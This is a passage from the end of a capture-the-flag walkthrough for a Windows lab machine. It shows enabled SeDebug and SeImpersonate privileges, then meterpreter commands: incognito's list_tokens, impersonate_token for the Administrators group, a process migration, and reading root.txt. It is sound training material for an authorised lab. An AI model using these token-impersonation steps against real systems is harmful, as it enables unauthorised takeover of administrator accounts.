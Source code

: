 ```
SeDebugPrivilege                Debug programs                            Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

We can see that two privileges : **SeDebugPrivilege, SeImpersonatePrivilege** are enabled.

Now run `exit` to close the shell, in meterpreter we can now execute: `load incognito` to load the module, then run this to see the available tokens:
```bash
list_tokens -g
```

Since the _BUILTIN\Administrators_ token is available. Use the `impersonate_token “BUILTIN\Administrators”` command to impersonate the Administrators token.

Finally let's migrate to a stable process, firstly still in meterpreter use `ps` to view them, located the right one run:
```
migrate 668
```

Now pop again the shell with `shell`, navigate to `C:\Windows\System32\config` and read the root.txt file:
```powershell
type root.txt
```

<br/>

Congratulations you have successfully exploited this Windows machine and practiced with the Metasploit framework.

Catch you in the next CTF 😃 
